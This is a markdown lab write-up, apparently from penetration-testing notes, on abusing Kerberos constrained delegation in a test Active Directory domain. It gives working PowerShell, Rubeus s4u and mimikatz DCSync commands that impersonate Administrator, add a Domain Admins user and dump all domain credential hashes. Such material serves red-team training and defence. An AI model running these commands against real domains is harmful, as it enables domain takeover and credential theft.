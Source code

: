 # Constrained Delegation Abuse

⇒ So if you have compromised a **`user account`** / **`system`** on a **`machine`** that is allowed to **`delegate`** to Domain Controller's **`cifs`** / **`ldap`** service we can abuse that to own the domain controller.

- Refer to the lab creation guide: [Kerberos Constrained Delegation Lab Creation](../Lab%20Creation/Kerberos%20Constrained%20Delegation%20Lab%20Creation.md)

---

## Explaining the Attack

⇒ **msDS-AllowedToDelegateTo** :

- For a given computer or user account, this attribute specifies the list of service principal names (SPN) corresponding to Windows services that can act on behalf of the computer or user account.

⇒ So here user enox is **`allowedtodelegate`** to **`impersonate`** as any user to the **`SPNs`** set as show in the screenshot [ i.e **`ldap`** and **`cifs`** ]

```python
get-netuser | ?{$_.cn -like "naqi"} | select msds-allowedtodelegateto  -ExpandProperty msds-allowedtodelegateto
```

![Constrained%20Delegation%20Abuse/Untitled.png](Constrained%20Delegation%20Abuse/Untitled.png)

- So basically we can authenticate to **ldap** and **cifs** services ****on **VDC01** machine as any user we want.

### ⇒ **S4U** ( Service-For-User ) :

- So **`S4U`** is a set of kerberos extensions, which were implemented by Microsoft to avoid unconstrained delegations to run wild.
- So the **`s4u2fself`** extension allows a service to request forwardable service tickets to itself on behalf of a particular user. This was implemented so that a user authenticate to a service somewhat not using Kerberos.
- The extensions **`s4u2proxy`** allows the service account to use the forwardable ticket to request a service ticket to the SPN specified in msds-allowedtodelegateto.

[ NOTE: This is only possible if the user has TRUSTED_TO_AUTH_FOR_DELEGATION flag set]

---

## Performing The Attack

⇒ So to perform this attack we will be using Rubeus.exe tool which is a C# toolset for raw Kerberos interaction and abuses. 

- It hash s4u abuse extension which we can use to perform this attack

Tool : [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

⇒ So as we saw previously we are allowed to delegate to :

- ldap
- cifs

⇒ We will be showing how to abuse both of the services to compromise the domain controller.

- First we will start with getting rc4 hash of the user :

![Constrained%20Delegation%20Abuse/Untitled%201.png](Constrained%20Delegation%20Abuse/Untitled%201.png)

RC4: `**58A52D36C84FB7F5F1BEAB9A201DB1DD**`

### ⇒ cifs/vdc01.endark.local :

- Now we will impersonate as Administrator user and request a ticket to **`cifs`** service :

```python
./Rubeus.exe s4u /user:Naqi /rc4:58A52D36C84FB7F5F1BEAB9A201DB1DD /impersonateuser:Administrator /domain:endark.local /msdsspn:cifs/vdc01.endark.local /ptt
```

![Constrained%20Delegation%20Abuse/Untitled%202.png](Constrained%20Delegation%20Abuse/Untitled%202.png)

![Constrained%20Delegation%20Abuse/Untitled%203.png](Constrained%20Delegation%20Abuse/Untitled%203.png)

- No winrm or mimikatz using “**`cifs`**” . So we will instead create a user and add it to domain admins group :

![Constrained%20Delegation%20Abuse/Untitled%204.png](Constrained%20Delegation%20Abuse/Untitled%204.png)

![Constrained%20Delegation%20Abuse/Untitled%205.png](Constrained%20Delegation%20Abuse/Untitled%205.png)

Next you could just use RunAs or WinRm to the Domain Controller to get shell as the user we created and added to Domain Admins and run mimikatz to dump hashes for persistence.

### ⇒ **ldap/vdc01.endark.local** :

- Impersonating as Administrator user and getting a ticket for **`ldap`** service :

```python
./Rubeus.exe s4u /user:Naqi /rc4:58A52D36C84FB7F5F1BEAB9A201DB1DD /impersonateuser:Administrator /domain:endark.local /msdsspn:ldap/vdc01.endark.local /outfile:dc.kirbi
```

![Constrained%20Delegation%20Abuse/Untitled%206.png](Constrained%20Delegation%20Abuse/Untitled%206.png)

- Next we will just use the ticket with **mimikatz** to perform dcsync attack to dump all the hashes in the domain :

```python
.\mimikatz.exe "kerberos::ptt dc_ldap_vdc01.endark.local.kirbi" "lsadump::dcsync /all /csv" "exit"
```

![Constrained%20Delegation%20Abuse/Untitled%207.png](Constrained%20Delegation%20Abuse/Untitled%207.png)

---

References : [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/) and [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation)